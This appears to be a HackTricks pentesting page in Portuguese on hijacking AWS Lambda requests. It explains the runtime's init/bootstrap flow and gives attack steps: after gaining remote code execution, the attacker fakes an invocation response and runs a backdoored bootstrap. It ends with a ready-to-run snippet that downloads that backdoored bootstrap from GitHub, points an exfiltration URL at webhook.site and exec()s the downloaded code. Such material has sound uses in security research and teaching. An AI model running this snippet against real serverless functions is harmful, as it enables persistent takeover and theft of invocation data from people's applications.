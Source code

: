 # AWS - Roubar Requisições Lambda

{{#include ../../../../banners/hacktricks-training.md}}

## Fluxo Lambda

<figure><img src="../../../../images/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** é um processo fora do contêiner que **envia** **invocações** para o processo **init**.
2. O processo init escuta na porta **9001** expondo alguns endpoints interessantes:
- **`/2018-06-01/runtime/invocation/next`** – obter o próximo evento de invocação
- **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – retornar a resposta do manipulador para a invocação
- **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – retornar um erro de execução
3. **bootstrap.py** tem um loop obtendo invocações do processo init e chama o código do usuário para manipulá-las (**`/next`**).
4. Finalmente, **bootstrap.py** envia para init a **resposta**

Note que o bootstrap carrega o código do usuário como um módulo, então qualquer execução de código realizada pelo código do usuário está realmente acontecendo neste processo.

## Roubo de Requisições Lambda

O objetivo deste ataque é fazer com que o código do usuário execute um processo malicioso **`bootstrap.py`** dentro do processo **`bootstrap.py`** que manipula a requisição vulnerável. Dessa forma, o processo **malicioso bootstrap** começará a **comunicar-se com o processo init** para manipular as requisições enquanto o bootstrap **legítimo** está **preso** executando o malicioso, de modo que não pedirá requisições ao processo init.

Esta é uma tarefa simples de alcançar, pois o código do usuário está sendo executado pelo legítimo processo **`bootstrap.py`**. Assim, o atacante poderia:

- **Enviar um resultado falso da invocação atual para o processo init**, para que o init pense que o processo bootstrap está aguardando mais invocações.
- Uma requisição deve ser enviada para **`/${invoke-id}/response`**
- O invoke-id pode ser obtido da pilha do legítimo processo **`bootstrap.py`** usando o módulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (como [proposto aqui](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) ou apenas solicitando-o novamente para **`/2018-06-01/runtime/invocation/next`** (como [proposto aqui](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
- Executar um **`boostrap.py`** malicioso que irá manipular as próximas invocações
- Para fins de furtividade, é possível enviar os parâmetros das invocações lambda para um C2 controlado pelo atacante e então manipular as requisições como de costume.
- Para este ataque, é suficiente obter o código original de **`bootstrap.py`** do sistema ou [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), adicionar o código malicioso e executá-lo a partir da invocação lambda atual.

### Passos do Ataque

1. Encontrar uma vulnerabilidade **RCE**.
2. Gerar um **bootstrap** **malicioso** (por exemplo, [https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Executar** o bootstrap malicioso.

Você pode facilmente realizar essas ações executando:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Para mais informações, consulte [https://github.com/carlospolop/lambda_bootstrap_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Referências

- [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{{#include ../../../../banners/hacktricks-training.md}}
